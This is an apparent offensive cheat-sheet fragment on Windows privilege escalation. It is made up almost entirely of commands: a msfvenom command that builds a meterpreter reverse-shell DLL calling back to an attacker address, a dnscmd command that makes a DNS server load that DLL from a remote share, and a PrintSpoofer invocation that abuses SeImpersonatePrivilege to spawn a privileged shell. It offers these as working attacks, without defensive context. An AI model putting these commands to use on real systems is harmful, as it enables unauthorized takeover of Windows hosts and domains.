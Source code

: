 ### Sensitive Groups Privilege Escalation

### DNSAdmins
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.1 LPORT=7777 -f dll -o DNSAdmins.dll
dnscmd.exe john.insomnia /config /serverlevelplugindll \\192.168.100.1:8080\DNSAdmins.dll
```

### SeImpersonatePrivilege Privilege Escalation

If SeImpersonatePrivilege is enabled, you  belong to Admin :) 
```
https://github.com/itm4n/PrintSpoofer
PrintSpoofer64.exe -i -c cmd
```
